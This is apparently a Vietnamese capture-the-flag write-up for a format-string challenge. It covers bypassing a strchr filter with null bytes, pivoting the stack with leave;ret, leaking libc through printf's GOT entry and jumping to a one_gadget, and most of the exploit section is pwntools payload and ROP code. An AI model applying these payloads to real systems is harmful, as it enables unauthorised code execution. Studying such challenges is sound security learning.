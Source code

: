 **1. Tìm bug**
  - Xem qua ida, hàm main không có gì hot chủ yếu call vuln
  - ![image](https://user-images.githubusercontent.com/113702087/214854559-43ddf861-53ed-44a1-b81e-987c0c1dc774.png)
  - ở đây ta thấy ngay lỗi fmt, có một chút trở ngại để thực hiện %n vì khi nhập chuỗi s được kiểm tra qua hàm strchr
  - ta có thể lợi dụng điểm dừng của hàm strchr là null byte để đưa %n vào, đồng thời dùng %c để kéo dãn độ dài s bù vào null byte đó thì có thể thực thi được %n
  - Sau khi debug vài lần thì thấy rằng ```'%6c' + b'\x00'*6' + fmt'``` thì có thể thực thi fmt được với fmt có %n được setup sẵn
  - ![image](https://user-images.githubusercontent.com/113702087/214909361-7d68a056-02bf-43b9-9ade-38e12a00aea0.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214909428-029d364d-396a-441c-a476-10e5d81b1aab.png)

**2. Ý tưởng**
  - Tôi sẽ thay đổi saverbp thành 1 địa chỉ nằm trong khoảng buf và saverip thành leave ; ret lúc này rsp sẽ thành (rbp + 8) và vì nằm trong khoảng buf nên ta có thể ghi các ROP vào
  - Do mỗi khi thực hiện fmt thì các dữ liệu đều được ghi vào đó khiến việc setup địa chỉ trong stack khá khó khăn vì có thể bị các dữ liệu mới ghi đè vào
  - ![image](https://user-images.githubusercontent.com/113702087/215037508-00decbc8-7d7e-4c05-bd12-bc4a797bb640.png)
  - Tôi đã test thử '%20c%24$n'
  - ![image](https://user-images.githubusercontent.com/113702087/215037561-7a564f07-c5ef-4972-818a-950e0c71068b.png)
  - Chúng ta có thể thấy sự thay đổi của stack
  - Byte của saverip cần chuyển là 0xad làm tròn sẽ là 0xb0, đây sẽ là byte lớn nhất và được ghi sau cùng của fmt, từ (buf + 176) trở đi ta có thể ghi các địa chỉ cần ghi đè và ROP
  - Ở đây tôi chỉ ghi 2 địa chỉ do đó các ROP sẽ bắt đầu ghi từ (buf + 192) -> saverbp mới là (buf + 184) -> ghi được 8 stack, khá ít nhưng thế cũng là đủ

**3. Exploit**
  ```
  r.recvuntil(b'at ')
out = r.recv(14)
buff_addr = int(out, 16)
print(hex(buff_addr))


saverip = buff_addr + 280
saverbp = buff_addr + 288
rbp_addr = buff_addr + 272
leave_ret = 0x00000000004012ad

libc.sym['one_gadget'] = 0xe3b01



new_saverbp = buff_addr + 184
print('buff_add: ' + hex(new_saverbp))
s_newsaverbp = str(hex(new_saverbp))
off_set = int('0x' + s_newsaverbp[12:14], 16)
print(off_set)
  ```
  - **leak địa chỉ buf và tính cách giá trị cho fmt**
  ```
  if off_set - 9 < 0:
    r.close()
elif off_set > 0xad :
    r.close()
  ```
  - ở đây offset cho %n phải > 9 do %6c đã tạo ra 9 byte nên lúc ghi vào sẽ >= 9 byte, đồng thời phải < 0xad là byte của saverip mới ( leave ; ret )
  - **Tạo payload**
  ```
  payload = b'%6c'.ljust(8, b'\x00') + b'\x00' + b'%' + str(off_set - 9).encode('utf-8') + b'c%27$hhn' + b'%' + str(0xad - off_set).encode('utf-8') + b'c%28$hhn' 
payload = payload.ljust(56, b'\x00') + b'\x00'*120 + p64(rbp_addr) + p64(saverip) + p64(pop_rdi) + p64(exe.got['printf']) + p64(exe.sym['printf']) + p64(ret) + p64(exe.sym['vuln']) + p64(pop_rbp) + p64(buff_addr) + p64(leave_ret)
  ```
  - Ban đầu leak libc rồi thực thi lại vuln để ghi onegadget tiếp đó thay đổi rbp và leave ; ret vào onegadget
  - **Leak libc**
  ```
  out = r.recv(6)
print(out)
libc_leak = u64(out + b'\x00'*2)
libc.address = libc_leak - libc.sym['printf']
print('libc_base: ' + hex(libc.address))
print('one_gadget: ' + hex(libc.sym['one_gadget']))
  ```
  - **Gửi payload có onegadget**
  ```
  payload = b'n'*55 + p64(libc.sym['one_gadget'])
r.sendlineafter(b': ', payload)
  ```
  - **Get shell**
  - ![image](https://user-images.githubusercontent.com/113702087/215040212-56973d58-24ab-41ea-a351-4b14b6990022.png)
  
